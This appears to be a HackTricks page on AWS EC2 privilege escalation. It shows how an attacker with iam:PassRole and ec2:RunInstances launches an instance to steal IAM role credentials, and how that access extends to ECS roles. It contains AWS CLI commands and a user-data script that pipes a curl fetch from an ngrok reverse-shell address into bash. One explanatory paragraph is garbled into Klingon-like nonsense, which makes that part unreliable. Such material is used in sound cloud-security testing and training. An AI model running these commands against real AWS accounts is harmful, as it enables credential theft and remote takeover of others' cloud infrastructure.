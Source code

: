 # AWS - EC2 Privesc

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## EC2

For more **info about EC2** check:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `iam:PassRole`, `ec2:RunInstances`

An attacker could **create and instance attaching an IAM role and then access the instance** to steal the IAM role credentials from the metadata endpoint.

* **Access via SSH**

Run a new instance using a **created** **ssh key** (`--key-name`) and then ssh into it (if you want to create a new one you might need to have the permission `ec2:CreateKeyPair`).
```bash
aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
--iam-instance-profile Name=<instance-profile-name> --key-name <ssh-key> \
--security-group-ids <sg-id>
```
* **Qap via rev shell in user data**

QapDI' **user data** (`--user-data`) vItlhutlh **rev shell** vItlhutlh 'ej vItlhutlh **instance** chaw'be'. vaj vItlhutlh security group jatlh.
```bash
echo '#!/bin/bash
curl https://reverse-shell.sh/4.tcp.ngrok.io:17031 | bash' > /tmp/rev.sh

aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
--iam-instance-profile Name=E<instance-profile-name> \
--count 1 \
--user-data "file:///tmp/rev.sh"
```
be'warned with GuradDuty if you use the credentials of the IAM role outside of the instance:

{% content-ref url="../aws-services/aws-security-and-detection-services/aws-guardduty-enum.md" %}
[aws-guardduty-enum.md](../aws-services/aws-security-and-detection-services/aws-guardduty-enum.md)
{% endcontent-ref %}

**Potential Impact:** Direct privesc to a any EC2 role attached to existing instance profiles.

#### Privesc to ECS

With this set of permissions you could also **create an EC2 instance and register it inside an ECS cluster**. This way, ECS **services** will be **run** in inside the **EC2 instance** where you have access and then you can penetrate those services (docker containers) and **steal their ECS roles attached**.
